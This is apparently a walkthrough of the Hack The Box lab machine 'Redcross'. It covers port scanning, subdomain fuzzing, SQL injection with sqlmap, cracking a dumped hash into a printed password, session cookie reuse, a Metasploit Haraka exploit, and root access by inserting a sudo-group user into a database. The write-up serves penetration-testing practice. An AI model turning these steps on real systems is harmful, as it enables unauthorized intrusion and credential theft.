

# [Redcross](https://app.hackthebox.com/machines/redcross)

```bash
nmap -p- --min-rate 10000 10.10.10.113 -Pn
```


After knowing open ports(22,80,443) are open, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80,443 10.10.10.113 -Pn
```


While browsing target ip address, it resolves into 'intra.redcross.htb' , that's why we need to add this into `/etc/hosts` file.


Subdomain enumeration

```bash
wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u https://10.10.10.113 -H "Host: FUZZ.redcross.htb" --sc 302
```


I just access to this application via `guest:guest` credentials. Let's find exploit.


In my opinion, we play with `o` parameter, may be we can do something.

SQLI


Let's use `sqlmap` to find SQL Injection and dump related data which we need.

```bash
sqlmap -r sqli.req --delay=1 --batch --dump
```


From this result, I can see all password hashes of users.
But, I need to grab one of them due to easy cracking.

charles: $2y$10$bj5Qh0AbUM5wHeu/lTfjg.xPxjRQkqU6T8cs683Eus/Y89GHs.G7i

Let's crack this via `hashcat` tool.

```bash
hashcat -m 3200 hash.txt --wordlist /usr/share/wordlists/rockyou.txt 
```


Hola, I found password of 'charles' user.

charles: cookiemonster


I login into 'intra.redcross.htb' via this credentials, don't find anything.


Let's login into 'admin.redcross.htb' but it says that our **credentials not enough**.


Let's copy PHPSESSID from 'intra' into 'admin' to authenticate ourselves.


That's worked.


Here, I see that Network Access and I enter my ip address into here to be in whitelisted.


After gaining network access, I do `nmap` scan to find anything interesting.


After I see that for port (1025) is 'Haraka' running, I just use RCE of this version of product.


Let's use `msfconsole` command.


user.txt


For privilege escalation, I found sensitive file called **'/var/www/html/admin/pages/actions.php'**



dbname: unix
dbuser: unixusrmgr 
dbpassword=dheu%7wjx8B&

I can login into database as like this.
```bash
psql -h 127.0.0.1 -U unixusrmgr -p 5432 -d unix
```


I see that I can modify '/etc/group' file. It means , I can add user into machine (via database) and go to `sudo` group, as a result, I can be root user.

```bash
openssl passwd -1 dr4ks  #copy dr4ks's hash
```

```bash
insert into passwd_table (username, passwd, gid, homedir) values ('dr4ks', '$1$AkyO5J36$n.fnwQRXVAE17k8ev.ES/.', 27, '/home/penelope');
```


Now, we just need to do ssh

```bash
ssh dr4ks@10.10.10.113  #pass=dr4ks
```


root.txt

